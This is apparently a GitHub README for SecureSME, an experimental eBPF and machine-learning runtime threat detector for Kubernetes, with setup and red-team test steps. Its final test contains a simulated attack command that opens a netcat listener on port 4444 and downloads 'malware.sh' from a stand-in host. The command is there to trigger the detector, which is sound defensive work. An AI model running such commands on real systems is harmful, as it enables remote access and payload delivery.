


# SecureSME
### Experimental Cloud-Native Runtime Detection Framework (eBPF + Kubernetes + ML)
SecureSME is an experimental runtime security framework designed to evaluate the feasibility of combining kernel-level eBPF telemetry with unsupervised machine learning for detecting anomalous behavior in Kubernetes environments.

The project explores a core research question:
> Can high-fidelity syscall telemetry collected at Ring 0 be transformed into practical, low-overhead anomaly detection for cloud-native workloads?

Rather than competing with production tools such as Falco, SecureSME is engineered as a systems research platform that bridges:

- Kernel-level observability (eBPF)
- Kubernetes runtime security
- DevSecOps deployment practices
- Unsupervised anomaly detection (Isolation Forest)

The goal is to evaluate detection efficacy, system overhead, and architectural trade-offs in a realistic containerized environment.


## Portfolio Evidence
### 1. eBPF Kernel-Level Threat Detection
*Privileged agent hooking `sys_execve` to detect "Living off the Land" attacks in real-time.*


### 2. Distributed Alerting System
*Asynchronous processing of heavy log files using Redis & Celery worker nodes.*

---

## Architecture: Dual-Sensor Defense

SecureSME utilizes a hybrid detection strategy, combining asynchronous log parsing (User Space) for legacy forensic analysis with AI-driven system call tracing (Kernel Space) for zero-day threat prevention.



## Key Features

* **Kernel Observability (eBPF):** A privileged Docker container running an eBPF probe that hooks into the Linux kernel to gain immutable, Ring-0 visibility across all Kubernetes namespaces, bypassing container isolation boundaries.

* **Edge AI Anomaly Detection:** Replaces rigid regex rules with an Unsupervised Machine Learning model (Isolation Forest) deployed at the edge to mathematically detect zero-day reverse shells and droppers without static signatures.

* **Automated Threat Intelligence:** Parses unstructured server logs (syslog, auth.log) to identify high-severity incidents like SSH brute force and Root access attempts.

* **Adversarial Validation:** Architecture successfully red-teamed against simulated container-escape and living-off-the-land (LotL) attack chains.

* **DevSecOps Pipeline:** Integrated Bandit (SAST) and Safety dependency scanning into GitHub Actions to block vulnerable code.


## Current Limitations & Architectural Roadmap

### 1. Performance Evaluation (In Progress)
- No high-throughput syscall benchmarking yet.
- No quantified latency delta under load.
- Future Work:
  - Measure CPU overhead at varying exec rates.
  - Profile memory footprint under stress.
  - Publish baseline vs instrumented comparison tables.

### 2. Behavioral Modeling Depth
- Current ML features are primarily lexical and event-based.
- Lacks:
  - Process lineage modeling
  - Temporal burst detection
  - Container-level statistical baselining
- Future Work:
  - Introduce parent-child graph modeling.
  - Implement rolling window anomaly scoring.
  - Evaluate sequential behavioral models.

### 3. eBPF Production Hardening
- Currently built using BCC.
- Migration to libbpf + CO-RE planned to reduce runtime dependencies and improve portability.

### 4. Cluster-Scale Validation
- Tested in controlled Kubernetes environment.
- Future Work:
  - Multi-node stress simulation.
  - Failure mode and recovery testing.


## Tech Stack

* **Kernel Observability:** eBPF (BCC Library), C, Python
* **Machine Learning:** Scikit-Learn, Pandas, Joblib
* **Core Backend:** Python 3.12, Flask, SQLAlchemy
* **Async Infrastructure:** Celery, Redis
* **Frontend:** React, TailwindCSS
* **Database:** PostgreSQL
* **DevOps:** Docker, Docker Compose, GitHub Actions

##  Installation & Setup

1.  **Clone the repository**
    ```bash
    git clone https://github.com/Murashidzi/SecureSME-Platform.git
    cd SecureSME-Platform
    ```

2.  **Deployment Option A:** Local Docker Compose (Note: The eBPF agent requires host kernel headers and privileged execution)
    ```bash
    sudo docker-compose up -d --build
    sudo docker exec securesme_api python init_db.py
    ```
3. **Deployment Option B: Kubernetes (DaemonSet)** Deploy the sensor across a K8s cluster mapping host-level kernel debug directories.
    ```bash
    kubectl create namespace security-ops
    kubectl apply -f infra/k8s/ebpf/daemonset.yaml
    ```

##  Adversarial Testing (Red Teaming)
* **Test A: The Reactive Engine (Log Analysis)**
1. **Trigger a forensic log upload via the API:**
   ```bash
    curl -X POST -F "file=@heavy_attack.log" http://localhost:5000/api/upload
    ```
2. **Verify asynchronous background processing::**
    ```bash
    sudo docker logs -f securesme_worker
    ```
**Test B: The Proactive Engine (AI Kernel Probe): Simulate an attacker inside an isolated container executing a malicious payload:**

1. **Monitor the Flask API ingestion:**
    ```bash
    sudo docker logs -f securesme_api
    ```
2. **Launch the attack from a new terminal:**
    ```bash
    sudo docker run --rm alpine sh -c "apk add --no-cache netcat-openbsd && nc -lvp 4444 & wget [http://example.com/malware.sh](http://example.com/malware.sh)"
    ```
---
*Engineered by Murashidzi as a demonstration of DevSecOps and Software Engineering principles.*
